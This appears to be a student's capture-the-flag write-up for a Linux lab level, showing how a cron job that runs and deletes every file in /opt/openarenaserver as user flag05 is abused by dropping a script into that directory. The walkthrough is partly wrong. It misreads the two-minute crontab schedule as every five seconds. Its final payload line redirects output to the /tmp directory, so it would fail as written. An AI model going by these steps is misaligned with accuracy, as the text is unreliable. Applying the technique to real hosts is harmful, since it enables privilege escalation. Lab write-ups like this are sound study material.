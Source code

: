 when you log in into level05 you get this print:
You have new mail.

after tried the next command with flag05 we've tried:
find / -type f -name "*level05*" 2>/dev/null => find all file containing level05 inside it.

/etc/apache2/sites-available/level05.conf
/var/mail/level05
/rofs/etc/apache2/sites-available/level05.conf
/rofs/var/mail/level05

we have to place with mail.

inside /var/mail/level05 we've get the following string:
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

its a crontab, The -c option is used to specify the command to be executed.
The - represents the user's login environment, and flag05 is the username.

we need to see the content of the openareaserver: cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

this executable run all exec in /opt/openarenaserver/*, it execute in subshell $i every 5 second and then delete the
exec

we need to create our own executable and put it in the right directory:
echo '/bin/getflag > /tmp' > /opt/openarenaserver/exec
then we need to wait for the crontab to be executed.

